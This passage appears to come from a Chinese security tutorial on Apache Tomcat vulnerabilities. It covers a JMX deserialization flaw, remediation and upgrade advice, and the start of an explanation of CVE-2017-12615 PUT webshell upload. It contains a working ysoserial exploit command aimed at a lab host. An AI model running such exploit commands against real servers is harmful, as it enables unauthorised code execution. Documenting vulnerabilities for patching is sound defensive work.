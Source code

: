 下图所示：服务已启动10001端口已启动

![image-20200812103050881](/images/tomcat/image-20200812103050881.png)

##### 漏洞检测

1、执行以下PoC

```java
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.3.165 10001 Groovy1 calc.exe
```

Java 1.8出现报错

![image-20200812104703039](/images/tomcat/image-20200812104703039.png)

1.7的jdk成功弹出计算器

![PoC](/images/tomcat/PoC.gif)

##### 漏洞修复

紧急措施：关闭JmxRemoteLifecycleListener功能，或者是对jmx JmxRemoteLifecycleListener远程端口进行网络访问控制。同时，增加严格的认证方式。

升级jdk（目前测试1.8是无法利用）

推荐方案：官方已经发布了版本更新，建议您升级到最新版本。

- Apache Tomcat 9.0.0.M13或更新版本(Apache Tomcat 9.0.0.M12也修复了此漏洞，但并未发布)

- Apache Tomcat 8.5.8或更新版本(Apache Tomcat 8.5.7也修复了此漏洞，但并未发布)

- Apache Tomcat 8.0.39或更新版本

- Apache Tomcat 7.0.73或更新版本

- Apache Tomcat 6.0.48或更新版本

  

#### CVE-2017-12615

##### 漏洞描述

远程代码执行漏洞(CVE-2017-12615)。当存在漏洞的Tomcat 运行在 Windows 主机上，且启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 的webshell文件，JSP文件中的恶意代码将能被服务器执行，导致服务器上的数据泄露或获取服务器权限。

##### 影响范围

Apache Tomcat 7.0.0 – 7.0.79

##### 漏洞原理

启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false）,可任意上传恶意文件至服务器端

默认`readonly`为`true`，也就是无法进行PUT、DELETE行为

````
conf/web.xml		//文件内容
````
